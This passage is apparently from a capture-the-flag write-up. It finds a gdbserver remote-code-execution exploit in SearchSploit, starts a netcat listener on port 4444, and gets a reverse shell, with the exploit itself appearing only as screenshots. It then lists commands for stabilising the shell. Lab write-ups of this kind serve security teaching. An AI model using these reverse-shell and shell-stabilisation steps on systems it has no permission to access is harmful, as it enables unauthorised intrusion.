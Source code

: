 Searching __gdbserver__ exploits in [SearchSploit](https://www.exploit-db.com/).

![Desktop View](/assets/img/Backdoor/rce_exploit.png){: }

We get a __RCE__ result. Let's get to it!

We follow the steps of the exploit to create a reverse shell in a terminal, starting a listener on __port 4444__ with:

```console
$ nc -lvnp 4444
```
Parameters explanation:

- _l_: Listen for connections.
- _v_: Set verbosity level (can be used several times).
- _n_: Do not resolve hostnames via DNS.
- _p_: Specify source port to use.

We run the exploit.

![Desktop View](/assets/img/Backdoor/pwned.png){: }

And we obtain a reverse shell!

![Desktop View](/assets/img/Backdoor/user.png){: }

> The first step is always stabilizing the shell so we can't accidentally close the connection if we press something like CTRL+C.
{: .prompt-tip }

```console
$ script /dev/null -c bash
CTRL + Z (nc process into the background)
$ stty raw -echo; fg
$ reset
$ xterm
$ export TERM=xterm
$ export SHELL=bash
```
Now we should have a fully stabilized shell.
